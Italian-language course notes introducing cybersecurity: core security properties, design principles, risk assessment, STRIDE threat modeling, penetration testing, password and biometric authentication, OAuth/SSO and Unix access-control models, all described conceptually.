# (1) Introduzione alla sicurezza

Definizione di **Sicurezza**: Proteggere i calcolatori da accessi intenzionali non autorizzati, danni o sbagli

Come affrontare un attacco?

1. Prempion: fare in modo che l’attaco non viene portato a termine
2. Detection: accorgersi, individuare quando un pc è sotto attacco
3. Recovery: ripristinare la situazione successivamente all’accaduto

Definzione di **Privacy**: diritto che ognuno ha di controllare le informazioni che lo riguardano, sapere chi sta usando queste informazioni. 

Profilazione: utilizzata per fornire pubblicità mirata

## CyberSecurity permette la privacy

Quando arrivano i sistemi multiprogrammati, la sicurezza si rende necessaria per proteggere i programmi da azioni involontarie o intenzionali da parte di altri programmi.

Alcuni attacchi di rilievo avvenuti nella storia sono ad esempio Stuxnet, Solawinds ed il primo ransomware. I ComputerVirus sono computer creati per fare del male. Inizialmente i virus si propagavano offline tramite usb o floppy, successivamente con la rete e le email (ad esempio i virus melissa ed ILOVEYOU)

Un **exploit** è un programma, che sfrutta una **vulnerabilità**, in modo da fargli fare quello che vuole (per esempio aprire una shell). L’**exploit** si può usare o vendere, nel darkweb c'è un mercato legato ad essi. I BugHunters sono persone che trovano bug ed exploit nei programmi e sono professionisti ben pagati

Le vulnerabilità sono introdotte nei programmi dai programmatori, in quanto è impossibile programmare senza errori (statisticamente un programmatore commette tra i 10 e i 15 errori ogni 1000 righe di codice, tuttavia non tutti sono rilevanti per la cybersecurity)

**BotNet**: reti costruite con pc altrui: viene fatto un malware, che arriva sulla macchina di un utente, l’utente lo esegue, il virus rimane nascosto e usa le risorse della macchina utente (bande, rete, memoria, cpu) per i suoi scopi, sfruttando l’hardware della macchina per la computazione. Questo si propaga a più macchine. Il creatore di una BotNet solitamente la vende o affitta, soprattuto per usi di concorrenza sleale e cryptojacking (ovvero effettuare mining di cryptovalute su PC altrui)

Differenza tra **hacker** e **cracker**

- Black hat: un cracker, che rompe un sistema
- White hat: un hacker che deve difendere un sistema
- Grey hat: misto tra i due
- Script Kiddie: Persone con poche competenze (*non capiscono niente)*, ma sanno effettuare attacchi

# (2) Sistema Sicuro

{width=500px height=250px}

Quando posso definire un sistema sicuro? Quando garantisce almeno 3 proprietà fondamentali su le seguenti 6:

- Confidenzialità  
- Integrità  
- Disponibilità  
- Accontabilità  
- Autenticità  
- Autorizzazione

Questo non è possibile perchè:

- **Confidenzialità**: il sistema garantisce la confidenzialità se la parte di informazione non pubblica presente nel sistema, può essere acceduta solo dalle persone autorizzate.

Il cellulare ad esempio non rispetta questa proprietà. Una tecnica comune utilizzata è la cifratura dei dati (**data encryption**) con una chiave.

- **Integrità**: il sistema garantisce l'integrità se si è in grado di garantire che Software e dati possano essere modificati solo da chi è autorizzato.

Se qualcuno accede ad un dispositivo e ne modifica Software o dati non ho integrità: essa infatti non può essere garantita in quanto ci sono delle vulnerabilità nel sistena e non posso essere sicuro di garantire questa proprietà. L'unica cosa che posso fare è il Controllo di Integrità: se qualcuno modifica dati in modo non autorizzato, posso accorgermene con error correction codes (ECC) e Cryptographic checksums

- **Disponibilità**:  il sistema garantisce la confidenzialità se le risorse messe a disposizione sono sempre accessibili dagli utenti.

Include la protezione da corruzione e cancellazione intenzionale di dati. Se il servizio è disponibile, deve poter essere sempre operativo: anche questa proprietà non può essere garantita in quanto esistono gli attacchi DOS (Denial Of Service, es. sovraccarico un sito o una risorsa in modo tale che non possa più essere utilizzata). Gli attacchi DOS si possono rilevare ma non prevenire (non hanno quindi retention ma hanno prevention)

Dato che le proprietà fondamentali di un sistema sicuro non possono essere garantite, possiamo affermare che

**I sistemi sicuri non possono esistere**

Posso solo fare il possibile per rendere un sistema il più protetto possibile, ma non posso essere 100% sicuro che un sistema sia protetto, per definizione

## Come costruisco un sistema sicuro

I sistemi sicuri non esistono come abbiampo appena affermato, tuttavia posso cercare di renderlo il più sicuro possibile grazie a delle proprietà che un sistema deve avere per essere definito tale:

- **Econonomia del meccanismo**: il meccanismo deve essere semplice e piccolo. Semplice perchè meno codice scrivo più è sicuro meno errori faccio.
- **Save Default**: metti di default l'opzione più sicura (es. firewall, meglio impostarli dando accesso a chi può e negando tutto il resto, piuttosto che il contrario). Meglio usare *allowlist* che *denylist*
- **Complete Mediaton**: quando una applicazione fa accesso ad un ogetto, non può accedere direttamente, lo può fare solo se è verfiicato che abbia i necessari permessi (es. processo prova ad accedere ad un file, SO verifica se applicazione può accede al file. Se può L'OS accede alla applicazione e poi restituisce la risposta alla applicazione. Quindi l'applicazione non accede direttamente ai file). Se le applicazioni potessero accedere alle risorse sarebbe molto più facile irrompere: se corrompo app accedo alla risorsa. Con complete mediation va convinto anche l'OS
- **Open Design**: la parte che fa la protezione di un sistema dovrebbe essere Open (no security by obscurity es. Windows, ovvero è sicuro perchè nessuno ha il codice). Unix era open source e quindi man man che trovavano errori si è irrobustito. Su Windows invece è inziato il reverse engineering quindi sono iniziati i malware. L'Open design è imposto per gli algoritmi di crittografia: devono essere liberi
- **Least Privilege**: garantire ad ogni utente i privilegi minimi necessari e per la durata minore possibile. Per esempio prendere i privilegi amministrativi solo per quello che è necessario
- **Modular Design (Separation Of Privileges)**: creare sistemi di protezione dove ogni elemento svolge la sua parte, non creare un solo elemento che controlla tutto: sono più facili da gestire e debuggare. Un principio associato è **separation of duties** ovvero evitare che in una organizzazione ci siano persone con poteri particolari. Se ci sono decisioni pericolose o importanti ci vuole l'accordo di più persone (es. cassaforte che si apre con due chiavi)
- **Psychological acceptabiliy (least surprise)**: creare design e meccanismi per fare in modo che tutto si comporti come richiesto. Le persone normali non sanno nulla di informatica, bisogna utilizzare design semplici e metodologi per rendere il tutto semplice per tutti (es. posta certificata, comoda e sicura ma nessuno la utilizza perchè complessa)

## Golden Rules

Le golden rules (così chiamate perchè iniziano tutte per *Au*, simbolo dell'oro), sono le regole fondamentali da seguire

- **Authentication**: chi sei? Serve a verificare l'identità dell'utente
- **Authorization**: cosa puoi fare? Si verificano le politiche di autorizzazione, verificando diritti e privilegi dell'utente in base a pagamento o altre condizioni (es. se paghi un abbonamento hai più privilegi)
- **Auditing**: cosa hai fatto? Serve per garantire l'Accountability di cui abbiamo già parlato ovvero poter verificare tutte le azioni effettuate da un utente, registrando l'attività del sistema

Un esempio: Un night club

- Authentication: posso entrare solo de ho 18 anni, devo mostrare la carta d'identità
- Authorization: in base all'età ho acccesso a varie cose, es. 18 entri, sopra 21 posso bere, se sono su lista VIP ho accesso a tavoli vip
- Enforcement Mechanism: muri, porte, lucchetti
- Accountability: telecamere che registrano cosa succede

Parlando di sicurezza dei sistemi bisogna definire cosa sono i **Principals** (Principali): sono le entità (utenti, entità comunicanti o processi di sistema) che possono effettuare accessi. Ogni Principal ha associati dei **Privilegi**: essi specificano per ogni risosa le proprietà di accesso che il Principal possiede. Avendo definito Principal e Privilegi, è necessario definire altri due obbiettivi di un sistema sicuro:

- **Autenticità**: è la garanzia che un Principal, un dato o un software siano genuini rispetto alle aspettative derivanti dalle apparenze o dal contesto.

Tramite **Entity authentication** il sistema è in grado di garantire che l’identita associata a un Principal, è esattamente quella dichiarata. Essa è violata se il sistema non garantisce l’identità reale. **Data origin authentication** invece permette al sistema di garantire che la fonte dei dati o del Software sia quella dichiarata (ed implica integrità dei dati)

- **Accountability**: ovvero essere respnsabili avendo un sistema in grado di registrare in maniera precisa le attività che vengono svolte nel sistema (tipicamente tramite file di log).

Tramite l'accountability registro tutto ciò che accade nel sistema, pertanto chi ha svolto un azione non può negare di averla svolta. Senza accountability non posso sapere cosa sta succedendo nel mio sistema e di conseguenza sapere cosa succede se qualcuno entra nel mio sistema. I log non devono per forza essere cancellati ma possono essere anche salvati (come i CD write once). Esistono dei sistemi che leggono i log e possono avvisare in caso di problemi

**Confidentiality vs Privacy**: Che differenza c'è tra le due?

**Riservatezza (Confidentiality)**: implica la protezione delle informazioni per impedirne la divulgazione non autorizzata

**Privacy**: più ampiamente riguarda le informazioni personali sensibili, la loro protezione e il controllo delle modalità di convidisione.

Purtoppo vi è una grande asimmetria tra chi attacca e chi difende un sistema: chi attacca ha bisogno di conoscere solo una vulnerabilità, e si concentra su quell'attacco potendo attaccare dove vuole. Chi difende invece deve conoscere l'intero sistema per difendersi da tutti gli attacchi possibili. Per questo generalmente ci sono più crackers che hackers

## Policy di sicurezza (security policy)

Stabiliscono per ogni sistema cosa, perchè e come è consentito. Un sistema è sicuro a seguito delle **Security Policy**: Specificano cosa all’interno di un sistema va protetto. Un sistema non è sicuro se non vengono rispettate le policy.

Un attacco è esecuzione deliberata di uno o più passi, che causano una violazione della sicurezza (un dettato della security policy). Per fare un attacco è necessaria una **vulnerabilità**: un errore o bug volontario o involontario presente all’interno di un SW. Individuata la vurnerabilità occorre trovare un programma (exploit) che la sfrutta, per poter fare un attacco. L’attaco è solitamente fatto da un **threat agent** (agente della minaccia) : una circostanza o entità che puà attaccare un asset (HW, SW, Data, Reti) che può compromettere il buon funzionamento di un sistema.

{width=500px height=150px}

Una minaccia (**Threat**) è una qualsiasi combinazione di circostanze o entità che potrebbero danneggiare beni o causare violazioni di sicurezza. Un Cracker è una minaccia umana, ma le minaccie possono anche essere ambientali (incendi, terremoti, allagamenti). 

I **Vettori di attacco** sono metodo specifici o sequenze di passaggi con cui vengono eseguiti gli attacchi. Le Vulnerabilità sono pubblicate su CVE (Common-Vulnerability-Exposures). Molti attacchi sfruttano vulnerabilità vecchie presenti su sistemi che non sono stati aggiornati.

**ATTACCO** : un Threat-agent usa un attack vector e sfrutta una vulnerabilità per attaccare.

Per proteggere un sistema è necessario implementare controlli e contromisure necessarie, al fine di prevenire, rilevare violazioni e ripristinare il sistema (prevention, relevation, recovery). L’obiettivo è Prevenire gli attacchi che si possono prevenire, Rilevare gli attacchi che si possono rilevare, e Recuperare come ultima opzione. Le contromisure non sono mai perfette, spesso gli attacchi sfruttano i bug dei sistemi di protezione.

## Gerarchia del Software

La CPU può eseguire solo processi scritti in linguaggio macchina rappresentato da una stringa di zeri e uno. Per utilizzare linguaggi evoluti devo utilizzare un compilatore che traduca questi comandi in linguaggio comprensibile

Il sistema operativo permette alle applicazioni di interagire più facilmente con l'hardware, mascherando l'HW all'utente. Le applicazioni possono accedere all'Hardware tramite OS utilizzando le SYSCALL. Vi è una gerarchia di sistema:

UTENTI --> usano --> APPLICAZIONI --> usano --> OS --> accedono al --> SOFTWARE DI SISTEMA --> interagiscono con --> HARDWARE

Tramite il multitasking il processore alterna velocemente tra più processi per essere eseguiti in rapida successione, in quanto il processore può eseguire un processo alla volta (per circa 10m). I processi che vengono eseguiti in questo modo sono gestiti dallo scheduling e inseriti nella **coda dei processi**

L'obbiettivo di un attaccante è riuscire ad inserire del codice malevolo all'interno della coda dei processi così che sia eseguito dal calcolatore, bypassando così i meccanismi di protezione del SO. Ci sono due modi per farlo:

- **Malware**: convinci l'utente ad eseguire un programma malevolo che va in coda. Esso forza il processore ad eseguire codice malevolo
- Sfrutto delle vulnerabilità o bug per inserire in coda dei processi. Esistono anche dei bug Hardware del processore

Bisogna inserire all'interno dell'applicazione dei meccanismi di protezione (es. Google ti chiede di loggarti). La CyberSecurity non è solo un problema informatico: è anche una questione di informazione (es. faccio un sistema di password sicuro, ma la gente usa i post-it per salvarle). Bisogna formare gli utenti, si dice che "CyberSecurity is a process"

# (3) Rischio

## Risk Based

Come precedentementa stabilito, è impossibile al 100% creare un sistema sicuro, ed è difficile trovare gli errori in un sistema.

Per questo un approccio alla sicurezza dei sistemi è detto **Risk Based**: Decido cosa proteggere in base ad un analisi del rischio. L'approccio Risk Based si basa sul proteggere ciò che ha bisogno di essere protetto, non "sicurezza a tutti i costi": non ha senso utilizzare risorse per proteggere informazioni di dominio pubblico. Le spese sono proporzionate a quello che devo proteggere (es. non ha senso comprare un box per proteggere una bicicletta), anche perchè la sicurezza ha un costo: bisogna formare i professionisti e comprare le attrezzature. In generale posso dire che più investo più un sistema è sicuro

## Calcolo del Rischio

Il rischio è una perdita attesa: è un numero che identifica quanti soldi perdo se si verificano certi eventi. (es. mi rubano la bicicletta, quanto perdo?)

Per calcolarlo devo fare una Valutazione del Rischio (**Risk Assesment**) per identificare i possibili rischi, le probabilità di attacco e l'eventuale perdita. Vi sono due tipi di Risk Assesment:  
- Risk Assesment quantitativo: si decide quanto chiedere a chi paga in base all'oggetto (es. per una macchina molto rubata assicurazione sarà cara, altrimenti meno), utilizzato ad esempio dalle compagnie assicurative. Non è utilizzabile nella Cybersecurity  
- Risk Assesment qualitativo: non ci sono numeri ma categorie di rischio, è il sistema adottato principalmente dalla Cybersecurity

Formula per il calcolo del rischio:

$R = T \cdot V \cdot C$ 

Dove:  
T: Probabilità di un attacco al sistema in un determinato periodo  
V: Presenza di vulnerabilità nel sistema (es. sistema non aggiornato)  
C: Valore dell'oggetto che va protetto

Per ottenere la probabilità di essere attaccati $\mathbb P =  T \cdot V$  (Probabilità = Minaccia x Vulnerablità)
Dopodichè ottengo R facendo P x C (costo tangibile se l'attacco va a buon fine)

Quindi in generale posso dire che

$R = (T \cdot V) \cdot C = \mathbb P \cdot C$ 

Ad esempio se P = 50%, C = 1.000, Rischio = 500, oppure se P = 30%, C = 1.000.000, Rischio = 300.000

{width=540px height=96px}

In base al rischio decido l'investimento: non investo in sicurezza più del valore dell'asset (non spendo per proteggere un oggetto più del valore dell'oggetto stesso).

Ho un problema: la difficoltà a quantificare i dati. Come faccio a calcolare la probabilità di essere attaccato? T e V sono difficilmente quantificabili. È una peculiarità della cybersecurity: nelle assicurazioni normali non ho questo aspetto. I dati sono sconosciuti anche perchè quando le persone sono attaccate a livello informatico non lo dicono (le persone non vogliono sembrare sprovvedute, le aziende non vogliono farlo sapere ai concorrenti). A volte le aziende non fanno Risk assessment perchè costa e porta via tempo, in Italia in particolar modo non c'è molta propensione a proteggere i sistemi, ma più a sistemare dopo

### Risk Rating Matrix

Si tratta di una tabella che indica i livelli di rischio. Unisce costo x probabilità di essere attaccato (banalmente costo basso probabilità bassa sarà livello basso, costo alto probabilità alta sarà di più)

{width=540px height=150px}

## Risk Managment

Per gestire un rischio ho 4 possibilità:

- Mitigare il rischio: abbassare il rischio di attacco
- Trasferire il rischio: trasferire il rischio a terzi (es. assicurazioni)
- Accettare il rischio: sperando che sia meno costoso di mitigare o trasferire il rischio
- Eliminare il rischio: dismissione del sistema

Mettere al sicuro un'azienda richiede uno studio preliminare, basato spesso su ISO 27001 / NISP 800 / NIS 2 (Network Information Security), direttive europee sulla sicurezza

T viene calcolata tramite:

- **Adversary modeling**
- **Threat modeling**

V viene calcolata tramite:

- **Penetration testing**

### Adversary Modeling

Ne esistono diversi tipi:

1) Intelligence straniera (spionaggio industriale, solitamente tra stati)
2) Cyber-Terroristi o avversari politici
3) Agenti di spionaggio industriale (da competitor e non da stati)
4) Crimine Organizzato
5) Criminali minori e Crackers (individui che entrano nei computers)
6) Interni malevoli (impiegati scontenti) (il più famoso è Snowden)
7) Impiegati non malevoli (errori)

Occorre distinguere gli attacchi targhettizzati (categorie 1-3) mirati ad un obbiettivo, dagli attacchi opportunistici es. ransomware che non hanno un obbiettivo preciso ma "sparano nel mucchio" cercando di prendere il maggior numero di vittime

Il modo migliore per proteggere dati è metterli su macchine sollegate dalla rete

### Threat Modeling

Identifica le minacce, gli agenti e i vettori di attacco che il target considera un obbiettivo da difendere. Può essere fatto grazie a diversi approcci  
- Diagrammi Architetturali  
- Alberi di Attacco  
- Checklists  
- STRIDE

{width=500px height=140px}

Più gli attacchi sono difficili meno gente li sa fare e quindi sono meno comuni. Utilizzare User workflows come quello delle password in figura aiuta il processo di Threat Modeling. Ad esempio un KeyLogger è una minaccia che viene installata su una macchina e salva tutto ciò che la tastiera memorizza: questo può essere evitato ad esempio con un sistema di gestione password

{width=310px height=200px}

A loro volta anche gli Attack Trees sono degli schemi utilizzati per il Threat modeling che permettono partendo dal tipo di danno che potrebbe essere fatto di trovare soluzioni, derivando i possibili vettori di attacco. È uno dei metodi più utilizzati

{width=330px height=200px}

Grazie al Threat Modeling posso stimare P la probabilità di un'attacco

## STRIDE

Acronimo che sta per Spoofing, Tamperieng, Repudiation, Information Disclosure, Denial of Service, Elevation of Privilege. È una metodologia di sviluppo di Software sicuro. I 6 attacchi da prevenire sono i seguenti:

- Spoofing: spacciarsi per un'altra entità
- Tampering: modificare qualcosa che non dovresti modificare (es. pacchetti, bits sui dischi o memoria)
- Repudiation: dire che non hai fatto qualcosa (al di la se la hai fatta o no)
- Information Disclosure: esporre informatizioni alle persone che non sono autorizzate a vederle
- Denial Of Service: attacchi disegnati per prevenire un sistema dal provvedere un servizio
- Elevation of Privilege: un utente tramite un attacco può guadagnare i privilegi di amministratore di sistema o a fare cose che non è autorizzato a fare

Per applicare STRIDE devo:  
1) Mappare il mio sistema  
2) Applicare STRIDE ad ogni elemento

es. Analizziamo un sistema dove uno studente può registrarsi per vedere i voti, registrarsi per i corsi ecc.

Analizzo la componente di Login tramite STRIDE:

|Categoria Stride| Esempio Minaccia | Potenziale Soluzione|
|--|--|--|
|Spoofing| Un attaccante fa finta di essere uno studente| Autenticazione a due fattori|
|Tampering| Un hacker modifica lo script di login per rubare le password| Implementa controlli di integrità, HTTPS, accesso ristretto al codice|

E così via per ogni categoria

## Penetration Testing

I test di penetrazione coinsistono nel pagare del personale (red team) per trovare delle vulnerabilità nel prodotto, dimostrando gli errori. Chi si protegge è sbilanciato rispetto a chi attacca: chi protegge deve prevedere tutte le forme di attacco, chi attacca non ha regole

Vi sono Ttre tipi di penetration testing:

- Black Box: procedo a tentare di penetrare senza avere accesso alla documentazione o codice sorgente
- Grey Box: Possono accedere ad alcuni servizi e ad altri no
- White Box: utilizzo informazioni riservate per poter avere più possibilità di trovare vulnerabilità

Grazie ai Penetration Testing stimo V (presenza di vulnerabilità nel sistema)

## Valutazione di Sicurezza

Ora che ho stimato V e T, posso fare una valutazione del mio sistema

Esiste uno standard CC: Common criteria. Sono 6 livelli di certificazione (dove 6 è il migliore). Viene fatta una security evaluation. Un altro Livello di certificazione è EAL, per determinare che il prodotto è sicuro matematicamente. EAL6 non è ancora stato raggiunto in quanto vorrebbe dire avere la prova matematica che un sistema è sicuro. I prodotti militari sono solitamente EAL4, le carte di credito ad esempio sono EAL4 o 5, possedendo un firmware di solo 3kb. Infatti più un prodotto è piccolo più è facile certificarlo in quanto è facile controllare il codice: un prodotto come Windows è molto più complicato, oltre al fatto che ogni modifica al suo sistema richiederebbe una nuova valutazione. È costoso certificare un prodotto, e ogni volta che sistemo un errore solitamente ne introduco due nuovi quindi non sempre ne vale la pena

### Analisi di Sicurezza

{width=500px height=170px}

Quando faccio un'analisi di sicurezza devo tenere conto delle **Attack Surfaces**: le parti che possono essere attaccate di un sistema. Le 4 superfici principali sono:

- Network
- Hardware (introdotto recentemente per gli attacchi ROWHAMMER che attaccano le RAM)
- Software
- Human (il peggiore)

L'obbiettivo della CyberSecurity è ridurre le Attack Surfaces di un sistema

Standard Internazionali:
NIST (standard gratuiti)
ISOC

# (4) Modelli di Accesso

## Il Modello

{width=500px height=290px}

Come funziona il modello:

1) Verifico che l'utente sia davvero lui (**Authentication**)
2) L'Utente diventa un soggetto (è un entità attiva del sistema)
3) Il soggetto che vuole usare una app, inoltra la richiesta di uso. La richiesta viene intercettata dal reference monitor, che guarda le politiche e verifica se può accedere all'oggetto. Se è autorizzato ad accedere accdede, altrimenti torna indietro
4) Nel mentre che il reference monitor controlla, effettua anche logging

**Soggetti (o principals)**: sono entità del sistema che richiedono accesso agli oggetti del sistema.  
**Entità Attive**: possono fare azioni  
**Entità Passive**: memoria, file  
**Access Control** (richiesta fatta al reference monitor, fase 2)

Definizione di *ITU-T Reccomendation X.800* di access control:

*The prevention un unauthorized use of a resource, including the prevention of use of a resource in an unauthorized manner*

Per effettuare access control è richiesta una policy di sicurezza. Questo è il modello da eludere per effettuare un attacco informatico. Si cerca di farlo tramite **privilege escalation**: entro nel sistema come utente normale e scalo i miei privilegi fino ad arrivare al root

## Reference Monitor

Non è un uggetto, un software o un hardware: è un concetto. Contiene tutte le procedure di sicurezza di un sistema. Un computer non ha a che fare con le persone faccia a faccia come noi: utilizza i dati per verificare gli accessi. Questo avviene in 2 fasi:

- **Identificazione**: Dichiaro di essere un utente (es. inserisco utente in un form)
- **Autenticazione**: verifico che effettivamente io sia chi ho dichiarato nell'identificazione (password)

Nella fase di **enrollment** (creazione del profilo) creo una password. Il calcolatore mi conosce perchè assume che io sia l'unico a conoscerla, e se la conosco lui assume che sia io.

## Password

Le password sono memorizzate insieme al mio username su un file dal calcolatore (su Unix sono salvate hashate in `/etc/shadow`)

| **Vantaggi delle password** | **Svantaggi delle password** |
|----------------------------|------------------------------|
| Semplici da usare su ogni computer | Possono essere indovinate online |
| Gratis, non richiedono hardware aggiuntivo | Possono essere indovinate offline |
| Accesso veloce | Possono essere intercettate durante la digitazione |
| Facilmente cedibili (anche se non consigliato) | Sono facili da attaccare |

Forzare gli utenti a seguire delle regole (es. inserisci tot numeri o maiuscole) è controproducente perchè l'utente si salverà la password da qualche parte, la scriverà oppure farà password facili. Il sistema delle password è facile da usare, ma trovare password efficienti e difficili è il vero problema

### Strategie per bypassare l'Autenticazione Password

1) **Online Password Guessing**: creo una lista con le password più comuni (spesso trovate online) e provo a fare tentativi bruteforce contro il server, avendo a priori gli userID. Per cercare di limitarli bisognerebbe limitare i tentativi di accesso ad una finestra temporale, aumentando il tempo di delay per ogni password fallita
2) **Offline Password Guessing**: ricerca di password offline. Uguale al precedente ma tentando le password più popolari
3) **Dictionary Attack**: presupponendo di avere l'hash della password, utilizzando un dizionario effettuo l'hash di tutte le parole fino a trovare quella che combacia con l'hash della password
4) **Password Capture**: intercetto le password per poi utilizzarle, posso attaccare client infrastruttura o server per ottenerle
5) **Password Interface Bypass**: miro a bypassare i meccanismi di autenticazione
6) **Defetating Recovery Mechanism**: trovo una vulnerabilità nel sistema di recupero password

Per fare attacchi alle password noi useremo John the Ripper (www.openwall.com/john)

L'idea alla base della password è perfetta (solo noi due la conosciamo), ma l'aspetto umano lo rende imperfetto. I processi di autenticazione possono essere di 4 categorie:

- what you know: una password che sai
- what you have: tokron digitale o hardware fisico
- what you are: impronte biometriche, tratto fisico distintivo
- where you are: localizzazione utente

**Multifactor autenthication**: quando ne uso almeno 2 di queste

**OTP**: One-Time Password, password valide per una volta volta. La sfida è come condividere liste di password ad uso singolo tra chi deve autenticarsi e l'autenticatore. È un multifactor perchè uso sia oggetto sia token di accesso (cellulare)

Un problema delle password è la **password jungle**: 

## Biometria

La biometria è una risposta alla debolezza delle password. È divisa in due grosse categorie:

- **Pyhisical Biometric**: tratti fisici, non sono segreti (es. faccia iride mani voce)
- **Behavioral Biometric**: sono sperimentali al momento, ad esempio il modo in cui digiti

{width=500px height=194px}

Gli aspetti biometrici non sono segreti: chiunque vede la tua impronta digitale la può usare, però si presume che sono tu la usi. Le biometrie più utilizzate sono iride ed impronte digitali

La Biometria porta con se diversi problemi:

- È Intrusiva
- È Costosa
- I riconoscitori possono fare errori (es. ho le mani bagnate o fredde)
- Velocità di riconoscimento (sono più lenti delle password)

Se mi brucio un dito, o me lo tagliano posso avere dei problemi di sicurezza. Ancora una volta l'usabilità incide sul sistema da adottare in base alla situazione

### Funzionamento della Biometria

Come funziona la biometria: Enrollment e Recognition

- **ENROLLMENT**: campionamento della traccia biometrica, che viene processata e memorizzata
- **RECOGNITION**: catturo una biometria, la processo e la conforonto con quelle nel database

ENROLLMENT: biometrics -> capture -> process -> store  
VERIFICATION: biometrics -> capture -> process -> compare -> no match or match

Lo store deve essere sicurissimo perchè contiene i dati biometrici di tutti. Quando verifico le biometrie potrei ottenere degli errori: *falsi positivi* ovvero persone non autorizzate accedono, o *falsi negativi* ovvero persone autorizzate accedono

{width=500px height=300px}

Devo scegliere se privilegiare i falsi positivi o i falsi negativi: meglio permettere di accedere più facilmente a chi non è autorizzato, aumentando l'usabilità, o creare più problemi a chi è autorizzato ma aumentando la sicurezza? Gli attacchi di **Spoofing** sono attacchi dove l'identità reale di un'aggressore è nascosta facendosi passare per fonte affidabile

Il meccanismo di autenticazione è quindi **probabilistico**: la password è solo vera o falsa

## OAuth

Permette ad applicazioni (es. Instagram, Spotify) di accedere a certi dati senza chiedere la password. È come dare una chiave temporanea ad un ospite che apre solo una porta della tua casa. Nel sistema OAuth i prptagonisti sono:

- Tu (Proprietario della risorsa): possiede i dati
- App (Client): vuole accedere ai dati
- Permission Manager (Server di Autorizzazione): controlla chi può fare cosa
- Data Server (Resource Server): salva le informazioni protette

È un controllo degli accessi dinamico: Google chiede a te se garantire accesso ad una tua risorsa ad altri, e tu puoi cambiare questa autorizzazione quando vuoi

Funzionamento:

- app ti chiede il permesso
- tu ti logghi e dai il permesso
- il sistema da alla app un codice di autorizzazione
- la app scambia il codice per un token di accesso
- l'app usa il token di accesso per accedere alla risorsa

{width=500px height=300px}

### SSO (Single Sign On)

È un sistema che consente di utilizzare un'unica password per accedere a più sistemi della stessa organizzazione. L'utente (Client) si autentica ad un entità che verifica l'identità, genera un token che verrà inviato all'utente permettendogli di accedere a più applicazioni es. Google permette di accedere a molti servizi senza ripetere il login

Le organizzazioni spesso devono dare accesso a risorse ad entità esterne (partners o clienti)

- Problema: gestire account separati per ogni utente esterno è inefficiente e può creare rischi di sicurezza
- Concetto: **Federated Identity** ovvero si crea una federazione di organizzazioni che si fidano reciprocamente. Un utente autenticato presso una di esse (l' **Identity Provider** o **IDP**) può accedere anche alle risorse delle altre senza dover creare altri account

Il processo di autenticazione avviene nel seguente modo:

1. Utente richiede autorizzazione al **Authorisation Server**, fornendo l'ID del cliente è il secret per l'autenticazione
2. L'Authorization server renderizza al client un codice di autorizzazione o un token di accesso (a seconda del tipo concesso)
3. Il proprietario della risorsa interagisce con l'Authorization Server per fornire l'accesso
4. L'Authorization server renderizza al client un codice di autorizzazione o un token di accesso (a seconda del tipo concesso)
5. Con il Token di accesso, il client richiede l'accesso alla risorsa al **Resource Server**

**Autentication Provider (AP)**: la richiesta di autenticazione viene effettuata al proprio AP che provvede ad autenticare il client per utilizzo di applicazioni terze.

**Federated Identity**: necessita di un accordo per garantire la fiducia.

**OpenID Connect**: protocollo / standard che fornisce l'autenticazione, permette ad alcuni servizi di potersi fidare degli IP per l’autenticazione es. Google, Facebook.

OpenID è parte di OAuth ed è utilizzato principalmente solo in ambiente web

{width=500px height=650px}

**ID Token**: contiene varie informazioni, data di scadenza, autorità che lo ha emesso etc. Sono soggetti ad attacchi di spoofing (per rubare il token)

**Access token**: utile per effettuare il contollo degli accessi

# (5) Unix Access Control

**D-AC**: Modello di controllo degli accessi discrezionale, chi possiede un file decide che permessi dargli. È implementato nel sistemi più diffusi

**M-AC**: Le informazioni possono essere divulgate solo a chi il "supervisore" ha autorizzato a passare gli accessi. Esiste in Windows e SE Linux (secure access Linux) es. un militare che ottiene delle informazioni riservate, non può decidere a priori a chi condividerle: un entità superiore decide chi può vedere cosa

I documenti hanno un livello di sicurezza che va per livelli:  
Top Secret -> Secret -> Confidential -> Controlled Unclassified -> Unclassified

Quando entro in un sistema mi viene assegnato il livello di autorizzazione es. se ho accesso a Confidential posso accedere anche ai due livelli sottostanti, ma non ai due sovrastanti

**RBAC, Role-Based access control**: Ad ogni persona è assegnato un ruolo. Ogni ruolo ha un diverso set di permessi es. In UNIMI, i docenti possono creare i verbali d'esame, gli studenti possono leggerli. È un Sistema usato perchè molto efficiente, se uno viene promosso non bisogna riassegnargli tutti i permessi

L'**Access Control**  è un compito svolto dal Reference Monitor: previene l’uso di una risorsa non autorizzata o con accesso negato

- **Subject (principals)**: Entità attiva, coloro che possono effettuare azioni nel sistema (anche i processi sono subjects)
- **Object**: entità passive che subiscono azioni dai soggetti (es. processi, file)
- **Rights (Diritti)**: chiamare determinate azioni (es. chiamare api)

### ACE

Per avere questo controllo di accesso, è necessaria una security policy che valida il permesso di poter compiere un azione da parte di un entità. L’autorizzazione dei privilegi tra soggetti e oggetti è implementata con una tabella chiamata **Access Control Matrix (ACM)**: tutte le entries sono dette **ACE (Accesso Control Entries)** e specificano il permesso di accesso del soggetto `i` all’oggetto `j`



In questo caso ad esempio A(i, j) è un ACE che specifica i permessi che il soggetti `i` ha sull'ggetto `j`. La riga (a) può essere utilizzata per creare un elenco di capacità per il soggetto `i`. (b) invece può essere utilizzata per creare un elenco di controllo degli accessi (ACL) per l'oggetto `j`. La matrice di accesso stessa è indipendente dalle policy; la policy di controllo degli accessi è determinata dal permesso contenuto specificato nelle ACCE e non dalla struttura della matrice. L'incrocio di righe e colonne specifica l’azione che può fare il subject sull’object. Tramite l'ACM il reference monitor è in grado di consentire o negare l’accesso alle risorse.

Si pone un problema: non tutto è facilmente quantificabile, e anche le dimensioni della matrice possono diventare troppo onerose, rendendo l’implementazione molto inefficente, oltre ad essere una matrice sparsa (ovvero spreco memoria per elementi senza informazioni).

La matrice di accesso è soltanto un modello, in pratica, si salvano le Entries dela tabella in righe o colonne, l’implementazione con matrice 2D è inefficente.

Esistono due alternative ad essa:

### ACL & C-List

**ACL (Access Control List)**: Prendendo celle di colonna non vuote si definisce un elenco di coppie `(i, A(i, j^))` che si estendono verso il basso per tutti i soggetti `i` a cui è consentito l'accesso a `j^`. È memorizzato all’interno di ogni oggetto (quindi ogni file nei metadati contiene anche la ACL) quindi accedendo ad un file si è ingrado di sapere cosa può fare

**ACE (Acces Control Entries)**: elemento della ACL

Le liste sono detenute dalla guardia di un oggetto

